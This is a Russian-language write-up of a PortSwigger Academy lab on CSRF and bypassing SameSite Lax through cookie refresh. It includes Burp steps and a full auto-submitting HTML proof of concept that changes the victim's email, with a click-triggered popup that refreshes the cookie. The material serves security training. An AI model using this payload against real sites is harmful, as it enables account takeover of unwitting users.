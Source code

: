 залогинимся под `wiener:peter`

И после череды всех редиректов изменим почтовый ящик на `change@me.com`

найдем в `Proxy` -> `HTTP history` данный запрос по смене почтового ящика и отправим его в `Repeater`
```
POST /my-account/change-email HTTP/2
...
email=change%40me.com
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/10.%20SameSite%20Lax%20bypass%20via%20cookie%20refresh/pics%20for%20walkthrough/1.png)

Далее нажмем на данный запрос `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC `
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aae00c90340112080d858ff002100e1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/10.%20SameSite%20Lax%20bypass%20via%20cookie%20refresh/pics%20for%20walkthrough/2.png)
Так как после аутентификации было несколько `Continue` кнопок добавим в наш пейлоад

```
<script>
window.onclick= () => {
	window.open("https://0aae00c90340112080d858ff002100e1.web-security-academy.net/my-account/change-email")
	}
</script>
```
В итоге наш PoC будет иметь следующий вид
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	<script>
		window.onclick= () => {
		window.open("https://0aae00c90340112080d858ff002100e1.web-security-academy.net/my-account/change-email")
		}
		</script>
    <form action="https://0aae00c90340112080d858ff002100e1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Перейдем в `Exploit server`, нажмем `Store` и `Deliver Exploit to vicim` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/10.%20SameSite%20Lax%20bypass%20via%20cookie%20refresh/pics%20for%20walkthrough/3.png)
